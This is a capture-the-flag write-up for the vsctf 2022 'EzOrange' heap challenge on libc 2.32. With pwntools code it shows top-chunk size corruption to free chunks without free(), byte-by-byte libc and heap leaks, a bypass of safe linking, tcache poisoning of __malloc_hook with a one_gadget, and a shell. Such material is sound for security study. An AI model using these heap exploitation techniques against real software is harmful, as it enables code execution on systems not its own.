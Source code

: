```yaml
---
layout: post
readtime: true
tags: [tcache_poisoning,uaf,sysmalloc,top_chunk]
---
```


### Attachments : [ezorange](https://github.com/0xSh4dy/ctf_writeups/raw/master/vsctf2022/EzOrange/ezorange) , [libc.so.6](https://github.com/0xSh4dy/ctf_writeups/raw/master/vsctf2022/EzOrange/libc.so.6), [ld-2.32.so](https://github.com/0xSh4dy/ctf_writeups/raw/master/vsctf2022/EzOrange/ld-2.32.so)
<br>
EzOrange was an interesting heap exploitation challenge from vsctf 2022. This challenge uses libc-2.32. There are two options, `Buy an orange` and `Modify part of orange`. The first option allows us to allocate chunks of size <= 0x1000 and index(Orange number) either 0 or 1. The second option asks for an index(Orange number) and a cell index, prints the byte present at the cell index and then reads a new value for it(that can be controlled by the user). Thus, we have an arbitrary read/ write primitive, one byte at a time. There's no function that would allow us to free a chunk. Let's create some helper functions for malloc, read and write


```
def buy_orange(orange_number,size):
    p.sendlineafter("> ","1") 
    p.sendlineafter("Orange number: ",str(orange_number))
    p.sendlineafter("Size: ",str(size))

def modify_orange(orange_number,cell_index,value):
    p.sendlineafter("> ","2")
    p.sendlineafter("Orange number: ",str(orange_number))
    p.sendlineafter("Cell index: ",str(cell_index))
    p.sendlineafter("New value: ",str(value))

def leak_byte(orange_number,cell_index):
    p.sendlineafter("> ","2")
    p.sendlineafter("Orange number: ",str(orange_number))
    p.sendlineafter("Cell index: ",str(cell_index))
    p.recvuntil("Current value: ")
    leak = p.recvline()[:-1]
    p.sendlineafter("New value: ",leak)
    return leak

```
Alright, after writing a few helper functions, our goal is to generate a libc leak. This can be done by inserting a chunk into the unsorted bin and then reading the fd or bk, one byte at a time. But, wait a minute, there's no such functionality present in the binary that allows us to free a chunk. So, how do we insert a chunk into the unsorted bin if we can't free it? Well, in this case we can indirectly free a chunk by overwriting the `SIZE` field of the top chunk with a small value followed by large allocations. Whenever `malloc` receives a request that is too large to be serviced by an arena's top chunk or bins, the normal arenas handle it by changing permissions on the pre-mapped heap memory but the main arena invokes the `brk` system call to request memory from the kernel after which `malloc` checks the `SIZE` field to find out whether the newly allocated memory is contiguous to the heap or not. If it is, `malloc` extends the size of the top chunk. If the `SIZE` of the top chunk is overwritten with a small value and a large request to `malloc` is made, `malloc` finds out that the new memory doesn't border the end of the heap because of the fake size field of the top chunk. Since the newly allocated memory is larger, `malloc` starts a new heap right there by freeing the previous top chunk and moving the top chunk pointer to the newly allocated memory. Internally, the `sysmalloc` function is called. But, you cannot overwrite the top_chunk `SIZE` field with any value, there's a check involved in it.

```
static void * sysmalloc (INTERNAL_SIZE_T nb, mstate av)
{
.....
  assert ((old_top == initial_top (av) && old_size == 0) ||
          ((unsigned long) (old_size) >= MINSIZE &&
           prev_inuse (old_top) &&
           ((unsigned long) old_end & (pagesize - 1)) == 0));
.....
}
```
The `PREV_INUSE` bit of the top chunk must be set and the chunk should end on a page boundary. 

Alright, so let's start the attack by allocating a chunk
```
buy_orange(0,24)
```
<img  src="https://github.com/0xSh4dy/ctf_writeups/raw/master/vsctf2022/EzOrange/images/img1.png"/>

Now, we need to overwrite the `SIZE` of the top chunk with the value `0xd51` followed by a large request. This would free the top chunk and insert it into the unsorted bin. 
```
value = 0xd51
modify_orange(0,24,value&0xff)
modify_orange(0,25,value>>8)
modify_orange(0,26,0)
buy_orange(1,3500)
```
After that, we can leak data from the free chunk, one byte at a time to get a libc leak.

```
libc_leak = b'\x00'
for i in range(33,40):
    leak = leak_byte(0,i)
    leak = int(leak)
    libc_leak += p8(leak)
leak = u64(libc_leak)
libc.address = leak-0x1c5c00
log.critical("Libc base: {}".format(hex(libc.address)))
```
Now, after getting the libc base address, we'll try overwriting `__malloc_hook` with `one_gadget`. This can be done by inserting chunks into the tcache and corrupting the `fd`.
```
# Let's remove the chunk from the unsorted bin
buy_orange(0,0xd28)
buy_orange(0,0x10)
```
We can again overwrite the `SIZE` field of the top chunk and make large allocations to insert a chunk into the tcache. So, let's overwrite the `SIZE` of the top chunk with 0x221 and make a large request to free a chunk and insert into the tcache.

<img src="https://github.com/0xSh4dy/ctf_writeups/raw/master/vsctf2022/EzOrange/images/img2.png"/>
```
value = 0x221
modify_orange(0,24,value&0xff)
modify_orange(0,25,value>>8)
modify_orange(0,26,0)
buy_orange(1,3500)
```

<img src="https://github.com/0xSh4dy/ctf_writeups/raw/master/vsctf2022/EzOrange/images/img3.png"/>
Alright, so we've successfully inserted a chunk into the tcache. Now, the only thing that's left is to overwrite `__malloc_hook` with `one_gadget`. 
Let's leak the `fd` field from the free chunk. 
```
heap_leak1 = b''

for i in range(0x20,0x28):
    leak = leak_byte(0,i)
    leak = int(leak)
    heap_leak1 += p8(leak)
heap_leak1 = heap_leak1.ljust(8,b'\x00')
heap_leak1 = u64(heap_leak1)

```
libc2.32 has a check on the count fields in tcache. This can be bypassed by inserting one more chunk into the tcache , which would increase the count field of that particular tcache bin to 2. After that, we can corrupt the `fd` of the most recently freed chunk. 
```
buy_orange(0,0x10)
value = 0x221
modify_orange(0,24,value&0xff)
modify_orange(0,25,value>>8)
modify_orange(0,26,0)
buy_orange(1,3500)

heap_leak1 += 0x22
```
Now, libc2.32 includes an exploit mitigation known as [safe linking](https://research.checkpoint.com/2020/safe-linking-eliminating-a-20-year-old-malloc-exploit-primitive/). Basically, it obfuscates the `fd` of chunks that belong to bins that are singly linked.
In order to insert the `__malloc_hook` into the free list, we'll need to xor it with the heap leak.
```
__malloc_hook = __malloc_hook ^ heap_leak1
__malloc_hook = p64(__malloc_hook)
```
Now, we're all set. Let's launch tcache poisoning.
```
for i in range(0x20,0x28):
    modify_orange(0,i,__malloc_hook[i-0x20])
```

So, we've successfully inserted the `__malloc_hook` into the free list. Let's grab it.
<img src="https://github.com/0xSh4dy/ctf_writeups/raw/master/vsctf2022/EzOrange/images/img4.png">

```

buy_orange(0,0x1f8)
buy_orange(0,0x1f8)
one_gadget = libc.address + 0xceb71
one_gadget = p64(one_gadget)
```
Overwrite `__malloc_hook` with `one_gadget` and call `malloc` to drop a shell
```
for i in range(0,8):
    modify_orange(0,i,one_gadget[i])
buy_orange(0,0x10)
```
<img  src="https://github.com/0xSh4dy/ctf_writeups/raw/master/vsctf2022/EzOrange/images/img5.png">

### Complete exploit can be found [here](https://github.com/0xSh4dy/ctf_writeups/blob/master/vsctf2022/EzOrange/ezorange.py)